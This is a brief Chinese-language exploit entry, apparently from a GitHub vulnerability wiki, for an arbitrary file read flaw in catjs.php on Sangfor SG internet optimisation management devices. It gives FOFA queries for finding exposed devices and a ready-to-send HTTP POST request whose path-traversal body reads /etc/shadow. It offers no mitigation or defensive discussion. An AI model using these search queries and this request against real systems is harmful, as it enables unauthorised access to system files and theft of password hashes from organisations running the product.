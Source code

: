 ## 深信服SG上网优化管理系统 catjs.php 任意文件读取漏洞

## fofa
```
title=="SANGFOR上网优化管理"
icon_hash="1671759176"
```


```
POST /php/catjs.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Content-Length: 32

["../../../../../../etc/shadow"]
```

![9d1238a7ccbf56f3d36759ead05f1bcf](https://github.com/wy876/wiki/assets/139549762/42238697-6a27-4dbc-b274-db8f83ce6a49)

